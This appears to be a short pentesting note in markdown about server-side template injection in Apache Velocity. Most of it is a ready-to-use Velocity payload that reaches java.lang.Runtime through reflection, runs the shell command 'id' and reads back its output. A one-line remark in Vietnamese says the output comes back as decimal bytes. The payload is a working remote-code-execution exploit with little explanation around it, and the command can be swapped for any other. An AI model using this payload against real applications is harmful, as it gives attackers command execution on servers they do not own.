


# Velocity (Java)

Payload 

```java
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("id"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

Tuy nhiên response trả về là dạng dec của hex




